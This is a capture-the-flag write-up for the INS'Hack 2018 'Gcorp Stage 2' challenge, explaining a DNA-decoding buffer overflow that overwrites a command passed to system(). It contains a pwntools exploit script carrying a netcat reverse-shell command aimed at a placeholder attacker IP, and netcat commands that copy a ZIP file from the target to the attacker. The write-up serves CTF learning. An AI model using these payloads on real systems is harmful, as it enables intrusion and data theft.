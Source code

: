 ```yaml
---
title: INS'Hack 2018 - Gcorp Stage 2
authors: qlemaire
layout: writeup
---
```

Solves: 44 / Points: 85 / Category: PWN

## Challenge description
> All you need to do is to pwn using some DNA samples...
>
> Once you gathered enough information, go checkout https://gcorp-stage-2.ctf.insecurity-insa.fr/
>
> Note: you should validate stage 1 to have more information on stage 2.

In stage 1, we were given a pcap file. From a TCP stream, it was possible to extract a 64bits ELF executable. We are told that this binary is running on a remote server. It is translating DNA sequences into bytes.

## Challenge resolution

### DNA encoding

Performing static and dynamic analysis of the binary, we can see how DNA decoding is performed. It is actually a base4 decoding with "A", "C", "G" and "T" characters.

Each blocks of 4 characters encode 1 byte. We have the following correspondance table
```
AAAA => 0x00
AAAC => 0x01
AAAG => 0x02
AAAT => 0x03
AACA => 0x04
AACC => 0x05
AACG => 0x06
AACT => 0x07
AAGA => 0x08 (8)
AAGC => 0x09
AAGG => 0x0a
AAGT => 0x0b
AATA => 0x0c
AATC => 0x0d
AATG => 0x0e
AATT => 0x0f
ACAA => 0x10 (16)
...
TTTT => 0xff (255)
```

### Overflow

User input is a DNA sequence of maximum 1024 bytes. After decoding, the output is 1024/4 = 256 bytes long. However, this output is stored within a 128 bytes char table. Therefore, it is possible to write 128 junk bytes, then overflow the table to override the `gcmd` variable which is given as parameter to the `system` command.

To exploit the remote system, we have to write 128 junk bytes, then write the command (64 characters maximum) we want to execute.

### Building an exploit

Here is a local exploit code (don't forget to launch your listener to get the reverse shell). We send 128 times "TTTT" (which is decoded with "\xff") and then our encoded reverse shell command.

```python
from pwn import *

p = process('./73494.elf')

OFFSET = 128
FF = "TTTT" # "TTTT" sequence is converted to "\xff"
IP = "<FIXME_ATTACKER_IP>"
CMD = "nc " + IP + " <FIMXE_ATTACKER_PORT> -e /bin/sh" # reverse shell
BASE_4 = ["A", "C", "G", "T"] # 0, 1, 2, 3

dna_list = list()

# converting command in DNA (yeah this code could be improved and refactored)
for char in CMD:
    dna = ""
    dec_value = ord(char)

    first_index = float(dec_value)/float(64.0)
    dna += BASE_4[int(first_index)] # 1st letter

    rest = dec_value-int(first_index)*64
    second_index = float(rest)/float(16.0)
    dna += BASE_4[int(second_index)] # 2nd letter

    rest -= int(second_index)*16
    third_index = float(rest)/float(4.0)
    dna += BASE_4[int(third_index)] # 3nd letter

    rest -= int(third_index)*4
    fourth_index = float(rest)/float(1.0)
    dna += BASE_4[int(fourth_index)] # 4th letter

    dna_list.append(dna)

info("Command is %s"%CMD)
info("DNA is %s"%"".join(dna_list)) 

# building payload
payload = FF*OFFSET # sending 128 "\xff" 
payload += "".join(dna_list) # sending command to execute
payload += "AAAA" # \x00

info("Full payload:\n%s"%payload)

# write payload to file
with open('payload.txt', 'w') as f:
    f.write(payload)

p.send(payload)
```

### Remote exploitation

For remote exploitation, we send the payload (stored within `payload.txt` after local exploitation) in the body of an HTTP POST request to https://gcorp-stage-2.ctf.insecurity-insa.fr/.

As soon as we get a shell on the target, we cat the flag stored within `.flag.txt` :
```bash
$ cat .flag.txt
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

## Retrieve Gcorp Stage 3 file

From the remote target, we can retrieve the ZIP file for Gcorp Stage 3 `stage_3_storage.zip` via netcat:
```bash
(local_machine) $ nc -nvlp <attacker-port> > stage_3_storage.zip
(remote_machine) $ nc <attacker-ip> <attacker-port> < stage_3_storage.zip
```

_Of course, don't do that with sensitive customers files, there is no encryption here._